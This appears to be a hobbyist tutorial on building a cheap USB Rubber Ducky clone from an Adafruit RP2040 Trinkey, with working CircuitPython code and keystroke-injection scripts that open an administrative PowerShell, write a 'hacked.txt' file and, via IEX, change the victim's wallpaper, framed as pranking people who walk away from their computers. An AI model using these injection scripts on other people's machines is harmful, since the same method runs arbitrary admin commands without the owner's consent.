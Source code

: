 ```yaml
---
tags: []
---
```

Ever wanted to prank someone by changing their wallpaper or running a script when they walk away from their computer? It's a lot easier than you think! I will show you how to create your own USB Rubber Ducky for just \$10, a fraction of the cost of Hak5's \$70 Rubber Ducky!

We'll use the **Adafruit Trinkey QT2040 - RP2040** and CircuitPython to make a fully functional "keyboard injection" tool that can automate tasks, execute scripts, and more.

---
## Materials You'll Need

1. [Adafruit Trinkey QT2040 - RP2040](https://www.adafruit.com/product/5056)
2. A computer with USB ports.
3. Basic programming tools like a text editor.

---

## Step 1: Set Up CircuitPython

1. **Download CircuitPython**  
    Visit the [Adafruit CircuitPython page](https://circuitpython.org/board/adafruit_qt2040_trinkey/) and download the latest `.uf2` file for the QT2040 Trinkey.  (**9.2.1**)
    ![CircuitPython Download](image1.png)
    
2. **Put the Trinkey into Bootloader Mode**
    - Hold down the **BOOT/BOOTSEL** button (red in the image below).
![[buttons.jpg]]
    - While holding, press and release the **Reset** button (blue) and connect the Trinkey to your computer.
    - Continue holding the **BOOT/BOOTSEL** button until the `RPI-RP2` drive appears.  
        ![Bootloader Mode](image2.png)
3. **Copy the `.uf2` File**  
    Drag and drop the `.uf2` file onto the `RPI-RP2` drive. The device will restart, and you should now see a new drive labeled `CIRCUITPY`.  
    ![Drive Ready](image3.png)
    
4. **Prepare for Coding**
    - If you are missing a file named `code.py` on the `CIRCUITPY` drive, create it.
    - If you are missing a folder named `lib` inside the `CIRCUITPY` drive, create it.  
    - Create a folder named `scripts` inside the `CIRCUITPY` drive for our scripts.
	![[image.png]]

---

## Step 2: Safe Mode

By default, the USB will try to run code every time you plug it in to a device (duh!). While we work on it we don't want this, because it will also run anytime one of it's files changes. To bypass this, when you plug in the device click the `RESET` button twice and the device should flash yellow 3 times, signaling it is in Safe mode. If you need a refresher on which button that is, please look at Step 1 again.

---

## Step 3: Install Necessary Libraries

1. Download the **CircuitPython 9.x Library Bundle** from [Adafruit Libraries](https://circuitpython.org/libraries).
2. Extract the bundle and copy these files to your `CIRCUITPY` drive:
    - **`adafruit_hid`** folder (for USB HID functionality)
    - **`adafruit_ducky.mpy`** (for Rubber Ducky script support, place this in the `lib` folder).

---

## Step 4: Write our `code.py`

Open the `code.py` file and paste in the following Python code:

```python
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS
from adafruit_hid.keyboard import Keyboard
import adafruit_ducky
import usb_hid
import time

time.sleep(1)

keyboard = Keyboard(usb_hid.devices)
keyboard_layout = KeyboardLayoutUS(keyboard)

duck = adafruit_ducky.Ducky("scripts/ducky.txt", keyboard, keyboard_layout)

while True:
    result = duck.loop()
    if not result:
        break
```

We first import the libraries we installed when we copied over the files to `lib`. Then we have the USB sleep for a second to let it boot up. We create a `Keyboard` object and a `KeyboardLayoutUS` from the `Keyboard` object. We can then create a `Ducky` object from those two, and we point it to where our ducky script will be on the drive.

Now that we have our variables, we then loop through the ducky script line by line until the script ends!

---

## Step 5: Writing the Ducky Script

1. Create a new file called `ducky.txt` inside of our `scripts` folder on the `CIRCUITPY` drive and paste this in:
```
GUI x
DELAY 500
STRING a
DELAY 500
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 500
ENTER
DELAY 1000
STRING echo "you've been hacked!" > ([Environment]::GetFolderPath("Desktop") + "\hacked.txt"); exit;
ENTER
```
2. This script opens an administrative PowerShell session on Windows 11 and creates a text file on the desktop named `hacked.txt`. This takes about ~5 seconds to execute on my laptop.
![Ducky Script Showcase](video1.mp4)

Try it out! Unplug your USB and plug it back in to see it work!

---

## Advanced Use Case: Changing the Wallpaper

Now that you've had a taste! Let's try doing some funny PowerShell stuff!

Find a funny image you want to make your friends wallpaper. I'm going to use this one:
![[wallpaper.jpg]]

Create a new folder on your `CIRCUITPY` called `resources` and put your image there! Make sure it's named `wallpaper.jpg`.
### Step 1: PowerShell Time!

Create a new text file in `scripts` called `iexscript.txt` on the `CIRCUITPY` drive and paste the following in:

```powershell
$WallpaperPath = ((Get-Volume -FileSystemLabel 'CIRCUITPY').DriveLetter + ":\resources\wallpaper.jpg")

Add-Type @"
using System.Runtime.InteropServices;
public class Wallpaper {
    [DllImport("user32.dll", CharSet = CharSet.Auto)]
    public static extern int SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);
}
"@

[Wallpaper]::SystemParametersInfo(0x0014, 0, $WallpaperPath, 0x01 -bor 0x02)
exit
```

This is a simple PowerShell script that we are going to call with our ducky script! It creates a C# object that contains code to replace a user's wallpaper and then calls it in PowerShell!
### Step 2: Back to `ducky.txt`!

Open your `ducky.txt` inside of your `scripts` folder in the `CIRCUITPY` drive, delete what you have and paste in the following:
```
GUI x
DELAY 500
STRING a
DELAY 500
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 500
ENTER
DELAY 1000
STRING IEX (Get-Content ((Get-Volume -FileSystemLabel 'CIRCUITPY').DriveLetter + ":\scripts\iexscript.txt") -Raw);
ENTER
```

This code will (again) open an administrative PowerShell, but this time it will use `IEX`. Essentially `IEX` will execute the statement after it, and the whole `Get-Content` thing basically finds our cool `iexscript.txt` file on our USB and give it to `IEX` and `IEX` runs it! **Make sure you have a `resources` folder and a `wallpaper.jpg` file inside of it or this script will not work!**

Try it out! Unplug your USB and plug it in to see it work!

![Wallpaper Showcase](video2.mp4)

---

Congratulations! You're now a master hacker and can prank your friends by changing their wallpaper!

---

Please reach out to me if you have any comments or feedback! Contact: [sstock2005.business@gmail.com](mailto:sstock2005.business@gmail.com)